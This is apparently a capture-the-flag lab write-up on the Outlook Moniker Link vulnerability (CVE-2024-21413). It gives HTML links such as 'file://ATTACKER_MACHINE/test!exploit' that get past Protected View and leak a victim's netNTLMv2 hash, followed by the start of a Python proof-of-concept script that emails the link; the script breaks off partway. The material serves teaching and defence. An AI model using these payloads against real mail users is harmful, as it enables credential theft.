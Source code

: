 Outlook can render emails as HTML. You may notice this being used by your favorite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as [Moniker Links](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers)Normally, Outlook will prompt a security warning when external applications are triggered.

![Outlooks Protected View is triggered when launching an external application](https://research.checkpoint.com/wp-content/uploads/2024/02/HBNP4GTD5Y-image1.png)

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organization).&#x20;

By using the `file://` Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (`<a href="file://ATTACKER_IP/test>Click me</a>`). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the `!` special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: `<a href="file://ATTACKER_IP/test!exploit>Click me</a>`.

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, explaining this is currently out of scope for this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.

## EXPLOITATION

### POC

For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victim’s client will attempt to load a file from our attacking machine, resulting in the victim’s netNTLMv2 hash being captured.

But first, let’s run through a PoC I have created (which is also available on [GitHub](https://github.com/CMNatic/CVE-2024-21413)).

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
```